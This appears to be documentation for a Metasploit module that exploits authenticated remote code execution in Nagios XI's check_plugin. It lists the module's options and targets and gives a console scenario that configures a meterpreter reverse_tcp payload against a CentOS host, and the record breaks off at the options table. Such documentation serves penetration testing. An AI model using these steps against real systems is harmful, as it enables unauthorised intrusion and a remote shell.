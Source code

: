 ## Options
### FINISH_INSTALL
If this is set to `true`, the module will try to finish installing Nagios XI on targets where the installation has not been completed.
This includes signing the license agreement. The default value is `false`.
### PASSWORD
The password for the Nagios XI account to authenticate with.
### TARGETURI
The base path to Nagios XI. The default value is `/nagiosxi/`.
### USERNAME
The username for the Nagios XI account to authenticate with. The default value is `nagiosadmin`.

## Targets
```
Id  Name
--  ----
0   Linux (x86)
1   Linux (x64)
2   Linux (cmd)
```

## Scenarios
### Nagios XI 5.6.5 running on CentOS 7 - Linux (x86) target
```
msf > use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set rhosts 192.168.1.14
rhosts => 192.168.1.14
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost 192.168.1.28
lhost => 192.168.1.28
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password nagiosadmin
password => nagiosadmin
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set target 0
target => 0
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.14     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
```